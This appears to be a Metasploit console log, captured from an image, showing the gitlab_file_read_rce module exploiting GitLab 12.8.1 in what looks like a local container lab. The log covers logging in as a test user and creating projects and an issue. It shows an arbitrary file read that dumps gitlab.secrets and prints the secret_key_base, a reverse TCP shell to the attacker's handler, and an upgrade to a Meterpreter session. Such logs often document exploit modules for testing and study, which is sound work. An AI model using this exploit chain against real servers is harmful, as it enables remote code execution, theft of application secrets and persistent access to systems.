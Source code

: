 ```

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user test
[*] Created project /test/pKUuduxC
[*] Created project /test/5W350yP1
[*] created issue /test/pKUuduxC/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/kali/.msf4/loot/20201121213408_default_127.0.0.1_gitlab.secrets_675303.txt'
[+] Extracted secret_key_base e41f3a01d22ff6a694be33bf2e5d40af89b788088938203c3478818da595731ada41c2b9c3d3caff79de7647a0c287bb68f6ca1912904a766237543013c46594
[*] Attempting to delete project /test/pKUuduxC
[*] Command shell session 23 opened (172.17.0.1:4444 -> 172.17.0.2:34058) at 2020-11-21 21:34:08 -0500
[*] Deleted project /test/pKUuduxC
[*] Attempting to delete project /test/5W350yP1
[*] Deleted project /test/5W350yP1

whoami
git
^Z
Background session 23? [y/N]  y
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions -u 23
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [23]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 23
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433
[*] Sending stage (976712 bytes) to 172.17.0.2
[*] Meterpreter session 24 opened (172.17.0.1:4433 -> 172.17.0.2:45442) at 2020-11-21 21:34:34 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                     Connection
  --  ----  ----                   -----------                                                     ----------
  23        shell ruby/ruby                                                                        172.17.0.1:4444 -> 172.17.0.2:34058 (127.0.0.1)
  24        meterpreter x86/linux  git @ 622b6a4c6722 (uid=998, gid=998, euid=998, egid=998) @ 17  172.17.0.1:4433 -> 172.17.0.2:45442 (172.17.0.2)
                                   2.17.0.2

msf6 exploit(multi/http/gitlab_file_read_rce) >
```
